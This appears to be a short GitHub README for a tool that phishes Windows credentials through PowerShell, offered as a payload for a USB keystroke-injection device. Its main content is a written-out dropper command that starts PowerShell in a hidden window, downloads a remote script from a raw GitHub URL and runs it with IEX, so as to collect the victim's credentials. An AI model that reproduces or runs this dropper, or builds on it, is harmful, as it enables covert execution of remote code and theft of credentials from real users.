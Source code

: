 # Windows credentials powershell phishing
Super duper simple powershell script for gather user credentials. Useful as rubber duck payload

Example of payload dropper command
```
powershell  -WindowStyle hidden -c IEX($(iwr https://raw.githubusercontent.com/5unr153/Windows_credentials_phish/main/payload.ps1).Content)
```

